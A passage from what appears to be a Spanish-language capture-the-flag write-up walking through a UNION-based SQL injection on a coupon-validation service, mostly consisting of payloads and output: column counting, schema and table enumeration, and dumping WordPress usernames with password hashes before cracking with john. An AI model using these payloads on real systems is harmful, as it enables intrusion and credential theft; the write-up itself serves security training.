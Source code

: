 Voy a estar usando rlwrap para poder tener historico y poder moverme de derecha a izquierda sin problemas, vale lo primero es detectar cuantas columnas hay para esto usamos "order by"

```python
❯ rlwrap python3 exploit.py
$~ order by 100
Unknown column '100' in 'order clause'
$~ order by 5
Unknown column '5' in 'order clause'
$~ order by 4
Unknown column '4' in 'order clause'
$~ order by 3
Coupon Code Does Not Exist!
```

Vale hay 3 columnas, ahora hagamos uso de union select

```python
$~ union select 1,2,3
Coupon Code :1 With ID : 2 And With Expire Date Of : 3 Is Valid!
```

Vemos que los 3 numeritos que seleccionamos se nos estan mostrando, atraves de estos podemos dumpear toda la data que nos interese, primero veamos todas las bases de datos que hay en el servidor voy a tirar de group_concat() para que me reporte toda la data junta.

```python
$~ union select 1,2,group_concat(schema_name) from information_schema.schemata
Coupon Code :1 With ID : 2 And With Expire Date Of : information_schema,coupons,mysql,performance_schema,sys,wordpress Is Valid!
```

Vale de todas estas bases de datos la que me llama la atencion es wordpress, ya que en esta deben estar credenciales de usuarios de wordpress, veamos las tablas de la base de datos wordpress.

```python
$~ union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='wordpress'
Coupon Code :1 With ID : 2 And With Expire Date Of : wp_commentmeta,wp_comments,wp_links,wp_options,wp_postmeta,wp_posts,wp_term_relationships,wp_term_taxonomy,wp_termmeta,wp_terms,wp_usermeta,wp_users Is Valid!
```

Vale la tabla que me interesa es wp_users enumeremos sus columnas.

```python
$~ union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='wordpress' and table_name='wp_users'
Coupon Code :1 With ID : 2 And With Expire Date Of : ID,user_login,user_pass,user_nicename,user_email,user_url,user_registered,user_activation_key,user_status,display_name Is Valid!
```
Me interesa el contenido de las columnas user_login y user_pass, el 0x3a es ':' pero en hexadecimal, hay que poner el nombre de la base de datos y despues la tabla ya que la base de datos wordpress no esta en uso.
```python
$~ union select 1,2,group_concat(user_login,0x3a,user_pass) from wordpress.wp_users
Coupon Code :1 With ID : 2 And With Expire Date Of : admin:$P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B.,wp_jeffrey:$P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10,wp_yura:$P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/,wp_eagle:$P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/ Is Valid!
```
Bueno obtenemos 4 usuarios y 4 contraseñas hasheadas.
```bash
❯ cat hash
admin:$P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B.
wp_jeffrey:$P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10
wp_yura:$P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/
wp_eagle:$P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/ 
```
Intentemos Romper estos hashes usando john
